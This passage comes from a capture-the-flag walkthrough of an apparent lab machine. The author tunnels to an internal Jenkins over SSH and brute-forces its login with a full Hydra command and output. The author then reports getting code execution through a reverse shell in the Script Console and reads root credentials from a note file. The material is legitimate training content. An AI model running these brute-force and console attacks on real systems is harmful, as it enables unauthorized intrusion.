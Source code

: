 Once stabilized, I decided to take a look inside the `/home/`, but got no permissions to read `aubreanna` home directory, so I searched in `/var/www/html` directory.

As I didn't find anything, I decided to check `/opt/` 'cuz it's a place where you don't expect to be nothing useful, but I found `aubreanna` credentials:

![](Pasted%20image%2020240531155720.png)

So I logged in and got user flag:

![](Pasted%20image%2020240531155833.png)

Inside the same directory, there is a `jenkins.txt`, which tells us that jenkins is running:

![](Pasted%20image%2020240531160022.png)

So I tunneled the connection to my machine via ssh:

```shell
ssh -L 8080:127.0.0.1:8080 aubreanna@internal.thm
```

Now in my browser I searched for: `http://127.0.0.1:8080`, which showed me the Jenkins login:

![](Pasted%20image%2020240531160550.png)

I tried the credentials of the user, but they didn't work, so I decided to brute-force the login.
1. First, I caught the petition with Burp

![](Pasted%20image%2020240531161951.png)

2. Then I performed a http-form-post attack with [Hydra 🐍](/notes/tools/Hydra.md)

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in&Login:Invalid username or password"

[REDACTED]
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-31 16:24:21
```

Once I got in, i decided to perform a RCE detailed in my note [Jenkins 👨‍🎓](/notes/Jenkins.md)

> Basically consists on inserting a reverse shell on the Script Console

![](Pasted%20image%2020240531164306.png)

> We've got RCE!

So now, let's try to find the `root` password. I looked inside the `/opt` as before:

```shell
cd /opt
ls
note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```
